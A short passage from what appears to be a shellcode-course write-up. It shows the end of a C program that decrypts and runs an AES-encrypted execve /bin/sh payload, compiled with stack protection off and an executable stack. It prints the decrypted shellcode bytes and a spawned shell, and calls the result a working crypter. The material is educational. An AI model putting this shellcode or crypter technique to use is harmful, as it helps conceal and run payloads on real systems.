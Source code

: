 ```c

	ret();

	printf("\n\n");

	return 1;
}
```
Since we are running the execve-stack shellcode, we will need to compile this with the usual options when we tested shellcode in previous write-ups.. no stack protector and execstack.
```
gcc -fno-stack-protector -z execstack execute_encrypted_payload.c aes.o aes.h -o execute_encrypted_payload
execute_encrypted_payload.c:23:1: warning: return type defaults to ‘int’ [-Wimplicit-int]
 main(int argc, char* argv[])
 ^
```
Run it with the same key as input
```
./execute_encrypted_payload securitytube-key-012345678901234
Decrypted Shellcode:
\x31\xC0\x50\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x50\x89\xE2\x53\x89\xE1\xB0\x0B\xCD\x80\x00\x00\x00\x00\x00\x00\x00
Running Shellcode.


$ who
pwoer    tty7         Feb 28 14:13 (:0)
$ 
```
We now have a working crypter!

